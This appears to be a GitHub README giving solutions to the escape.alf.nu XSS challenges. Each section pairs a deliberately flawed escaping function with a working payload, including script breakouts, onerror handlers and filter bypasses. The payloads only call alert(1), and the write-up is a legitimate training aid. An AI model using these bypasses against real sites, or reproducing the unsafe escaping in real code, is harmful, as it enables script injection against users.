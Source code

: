 # escape.alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)
- [Well](#well)
- [No](#no)

## Warmup

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Input

```
",alert(1),"
```

- Output

```
<script>console.log("",alert(1),"");</script>
```

## Adobe

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Input

```
\");alert(1)//
```

## JSON

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Input

```
</script><script>alert(1)//
```

## Markdown

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Input

```
[[x|http://onerror=javascript:alert(1)//]]
```

## DOM

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

- Solution

```
Comment#--><img src onerror=alert(1)
```

- HTML source

```
<!----><img src onerror=alert(1)-->
```

## Skandia

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

## Well

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```

- Solution

```
'+Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}1${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```+'
```


## No

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
// submitted by Stephen Leppik

function escape(s) {
    s = s.replace(/[()`<]/g, ''); // no function calls

    return '<script>\n' +
           'var string = "' + s + '";\n' +
           'console.log(string);\n' +
           '</script>';
}
```

- Solution

```
";string=1;console.log=alert//
```

- Output

```
<script>
var string = "";string=1;console.log=alert//";
console.log(string);
</script>
```
